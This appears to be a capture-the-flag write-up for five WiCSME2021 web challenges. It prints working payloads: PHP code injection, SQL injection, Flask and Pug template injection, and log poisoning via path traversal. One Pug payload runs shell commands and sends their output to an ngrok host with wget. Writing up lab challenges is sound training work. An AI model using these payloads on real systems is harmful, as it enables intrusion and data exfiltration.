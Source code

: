 # WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.<br />
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")<br />
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ``` 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)
![Screenshot at 2021-11-26 10-04-55](https://user-images.githubusercontent.com/52857059/143547836-fcee23ee-9792-461d-90ca-799a392a5460.png)

After downloading the files' challenge locally ,I noticed The application use template Engine .<br />
I used template injection in python because the application was made with flask.

![Screenshot at 2021-11-26 10-07-03](https://user-images.githubusercontent.com/52857059/143549346-bbbcb5dd-9b70-4215-9bec-90de69252b20.png)

I noticed also The flag in the config so the payload is ```{{config.items()}}```

![Screenshot at 2021-11-26 10-19-37](https://user-images.githubusercontent.com/52857059/143549374-639f8833-23a9-4695-9c45-2b810932b34d.png)

HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}

## 4- IMF - Landing
![Screenshot at 2021-11-26 10-22-39](https://user-images.githubusercontent.com/52857059/143550824-7b43ab7e-56f6-47b9-aade-9470983c48de.png)

let's try path traversal 

![Screenshot at 2021-11-26 10-23-12](https://user-images.githubusercontent.com/52857059/143551120-363c8368-05e9-407f-8147-b3cab69b1f20.png)
It works.

I noticed the server is nginx so we could read the access.log ```/var/log/nginx/access.log```

![Screenshot at 2021-11-26 10-25-59](https://user-images.githubusercontent.com/52857059/143551202-38954555-d1cd-452b-818e-2db06bcc1bd4.png)

I notices the user-agent was printed in access.log

![Screenshot at 2021-11-26 10-38-17](https://user-images.githubusercontent.com/52857059/143551771-872a1ce2-bc54-40b3-bff4-9a29529861a5.png)

let's inject the user-agent with php code injection ```<?php system('ls') ?> ```

![Screenshot at 2021-11-26 10-28-55](https://user-images.githubusercontent.com/52857059/143551895-9deb0453-0197-4ae3-9255-de6f8cca9fdf.png)

![Screenshot at 2021-11-26 10-29-32](https://user-images.githubusercontent.com/52857059/143551935-8d010c3e-b79f-42bf-951b-a7a2ea93acda.png)

Let's try ```<?php system('ls ../') ?>```

![Screenshot at 2021-11-26 10-30-40](https://user-images.githubusercontent.com/52857059/143552105-99f4c676-95a2-4fd3-9c4e-c3210e4d8a64.png)

![Screenshot at 2021-11-26 10-30-54](https://user-images.githubusercontent.com/52857059/143552132-eaf7f512-6dec-4121-a88f-d662d597ddeb.png)

With ```<?php system('cat ../flag*') ?>``` we can read the flag

![Screenshot at 2021-11-26 10-31-40](https://user-images.githubusercontent.com/52857059/143552300-c8c42619-690a-4342-a5a0-46181cd2d3fb.png)

![Screenshot at 2021-11-26 10-31-54](https://user-images.githubusercontent.com/52857059/143552310-8137f420-2872-48f9-8254-cdfddc5e1322.png)

## 5- IMF-searching
![Screenshot at 2021-11-26 10-46-06](https://user-images.githubusercontent.com/52857059/143669832-4f692f5a-95c9-4b4b-b786-71a4123b6961.png)

After downloading the files' challenge locally ,I noticed The application use pug template Engine .<br />
so I will search about pug ssti <br />
I will run in the background ```sudo python3 -m http.server 80``` to recieve response<br />
running ```run ngrok http 80``` <br />
the payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls ../')')}()}```

The problem is if we do ls the first result of ls command will appear

![Screenshot at 2021-11-27 08-12-15](https://user-images.githubusercontent.com/52857059/143670460-2a3674e2-19c8-4db9-95d3-8afb4eb70cfd.png)

so let's replace ls ../ to ```ls ../flag*```<br />
payload ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('ls+../flag*')')}()}``` 

![Screenshot at 2021-11-27 08-25-10](https://user-images.githubusercontent.com/52857059/143670712-9eb3d484-133b-42af-a90d-298cc79c1d33.png)

the final payload is ```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('wget http://ea4a-154-178-105-159.ngrok.io/?output=$('cat+../flag*')')}()}```

![Screenshot at 2021-11-27 08-24-41](https://user-images.githubusercontent.com/52857059/143670708-1e8d4c5c-12ef-4021-8e85-642396b9c009.png)









